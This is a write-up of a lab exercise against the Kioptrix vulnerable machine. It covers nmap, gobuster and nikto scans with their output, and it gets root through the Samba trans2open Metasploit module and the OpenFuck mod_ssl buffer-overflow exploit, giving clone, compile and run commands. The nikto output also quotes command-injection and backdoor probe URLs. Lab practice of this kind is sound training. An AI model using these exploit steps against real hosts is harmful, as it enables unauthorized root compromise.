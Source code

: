 ### Keoptrix machine
---

IP = {target_IP}

nmap scan \
    `nmap -sC -sV -p- {target_IP} -oN nmap-initial`
```
    22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
|*sshv1: Server supports SSHv1
| ssh-hostkey:
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|*  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|*http-title: Test Page for the Apache Web Server on Red Hat Linux
111/tcp   open  rpcbind     2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1          32768/tcp   status
|*  100024  1          32768/udp   status
139/tcp   open  netbios-ssn Samba smbd (workgroup: hMYGROUP)
443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
|*http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| sslv2:
|   SSLv2 supported
|   ciphers:
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_RC4_128_WITH_MD5
|     SSL2_RC2_128_CBC_WITH_MD5
|*    SSL2_DES_192_EDE3_CBC_WITH_MD5
|_ssl-date: 2024-04-07T04:10:25+00:00; +5h00m04s from scanner time.
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_http-title: 400 Bad Request
32768/tcp open  status      1 (RPC #100024)

Host script results:
|_clock-skew: 5h00m03s
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIOPTRIX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
```
---

Gobuster for the directories discovery\
 `gobuster dir --url {target_IP} -w ~/scripts/SecLists/Discovery/Web-Content/common.txt` 
```
/.htaccess            (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/.hta                 (Status: 403) [Size: 268]
/cgi-bin/             (Status: 403) [Size: 272]
/index.html           (Status: 200) [Size: 2890]
/manual               (Status: 301) [Size: 294] [--> http://127.0.0.1/manual/]
/mrtg                 (Status: 301) [Size: 292] [--> http://127.0.0.1/mrtg/]
/usage                (Status: 301) [Size: 293] [--> http://127.0.0.1/usage/]
/~operator            (Status: 403) [Size: 273]
/~root                (Status: 403) [Size: 269]
```

On the main page of the url we found `/etc/httpd/conf/httpd.conf`after visite this http://{target_IP}/etc/httpd/conf/httpd.conf we get informnation disclosure

<img src="../img/Keoptrix.png">

---

We run nikto scan:
`nikto -url {target_IP}  `
```
Nikto v2.5.0
---

- Target IP: {target_IP}
- Target Hostname:{target_IP}
- Target Port: 80
- Start Time: 2023-04-06 19:28:01 (GMT-4)

---

- Server: Apache/1.3.20 (Unix) (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
- /: Server may leak inodes via ETags, header found with file /, inode: 34821, size: 2890, mtime: Wed Sep 5 23:12:46 2001. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
- /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
- /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
- /: Apache is vulnerable to XSS via the Expect header. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3918
- Apache/1.3.20 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
- mod_ssl/2.8.4 appears to be outdated (current is at least 2.9.6) (may depend on server version).
- OpenSSL/0.9.6b appears to be outdated (current is at least 3.0.7). OpenSSL 1.1.1s is current for the 1.x branch and will be supported until Nov 11 2023.
- OPTIONS: Allowed HTTP Methods: GET, HEAD, OPTIONS, TRACE .
- /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
- Apache/1.3.20 - Apache 1.x up 1.2.34 are vulnerable to a remote DoS and possible code execution.
- Apache/1.3.20 - Apache 1.3 below 1.3.27 are vulnerable to a local buffer overflow which allows attackers to kill any process on the system.
- Apache/1.3.20 - Apache 1.3 below 1.3.29 are vulnerable to overflows in mod_rewrite and mod_cgi.
- mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell.
- ///etc/hosts: The server install allows reading of any system file by adding an extra '/' to the URL.
- /usage/: Webalizer may be installed. Versions lower than 2.01-09 vulnerable to Cross Site Scripting (XSS). See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2001-0835
- /manual/: Directory indexing found.
- /manual/: Web server manual found.
- /icons/: Directory indexing found.
- /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
- /test.php: This might be interesting.
- /wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wordpress/wp-content/themes/twentyeleven/images/headers/server.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wordpress/wp-includes/Requests/Utility/content-post.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /wordpress/wp-includes/js/tinymce/themes/modern/Meuhy.php?filesrc=/etc/hosts: A PHP backdoor file manager was found.
- /assets/mobirise/css/meta.php?filesrc=: A PHP backdoor file manager was found.
- /login.cgi?cli=aa%20aa%27cat%20/etc/hosts: Some D-Link router remote command execution.
- /shell?cat+/etc/hosts: A backdoor was identified.
- /#wp-config.php#: #wp-config.php# file found. This file contains the credentials.
- 8908 requests: 0 error(s) and 30 item(s) reported on remote host

---

```
We detect SMB version via msfconsole:\
Unix (Samba 2.2.1a)\
try to connect via smbclient:\
`smbclient -L \\\\{target_IP}\\  `
<img src="../img/Keoptrix_smb.png">

As we know the  smb version we can try to exploit it via 

**[Samba trans2open Overflow (Linux x86)](https://www.rapid7.com/db/modules/exploit/linux/samba/trans2open/)**

<img src="../img/Keoptrix_root.png">

# We got root access! Congrats!
---

We can use the exploit of **[Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow (2)](https://github.com/heltonWernik/OpenLuck)**

1. Download OpenFuck.c

```
git clone https://github.com/heltonWernik/OpenFuck.git
```

1. Install ssl-dev library

```
apt-get install libssl-dev
```

1. It's Compile Time

```
gcc -o OpenFuck OpenFuck.c -lcrypto
```

1. Running the Exploit

```
./OpenFuck
```

1. See which service you witch to exploit. For example if you need to
Red Hat Linux, using apache version 1.3.20. Trying out using the 0x6a
option
./OpenFuck 0x6a [Target Ip] [port] -c 40

We execute the following command:

```
./OpenFuck 0x6b {target_IP} -c 40
```

<img src="../img/Keoptrix_root2.png">


# We got root access! Congrats!
